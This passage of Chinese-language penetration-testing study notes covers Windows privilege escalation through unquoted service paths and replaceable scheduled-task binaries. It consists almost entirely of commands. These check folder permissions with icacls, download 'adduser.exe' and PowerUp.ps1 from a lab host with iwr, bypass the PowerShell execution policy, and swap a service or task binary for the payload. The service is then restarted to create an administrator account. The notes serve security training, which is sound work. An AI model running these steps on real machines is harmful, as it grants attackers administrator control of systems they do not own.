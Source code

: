 检查路径是否可写

```armasm
icacls "C:\"
icacls "C:\Program Files"
icacls "C:\Program Files\Enterprise Apps"
```

需要有F或者W权限，如

```armasm
C:\Program Files\Enterprise Apps
```

```armasm
iwr -uri http://192.168.119.3/adduser.exe -Outfile Current.exe
copy .\Current.exe 'C:\Program Files\Enterprise Apps\Current.exe'
Start-Service GammaService

net user
net localgroup administrators
```

自动化工具PowerUp

```armasm
iwr http://192.168.119.3/PowerUp.ps1 -Outfile PowerUp.ps1
powershell -ep bypass
. .\PowerUp.ps1
Get-UnquotedService

Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"
Restart-Service GammaService
net user
net localgroup administrators
```

## 16.3 利用其他Windows组件

### 16.3.1 计划任务

查看

```armasm
schtasks /query /fo LIST /v
```

关注任务名、下一次执行时间、作者、文件路径等信息

查看是否可以替换

```armasm
icacls C:\Users\steve\Pictures\BackendCacheCleanup.exe
```

替换

```armasm
iwr -Uri http://192.168.119.3/adduser.exe -Outfile BackendCacheCleanup.exe
move .\Pictures\BackendCacheCleanup.exe BackendCacheCleanup.exe.bak
move .\BackendCacheCleanup.exe .\Pictures\
```
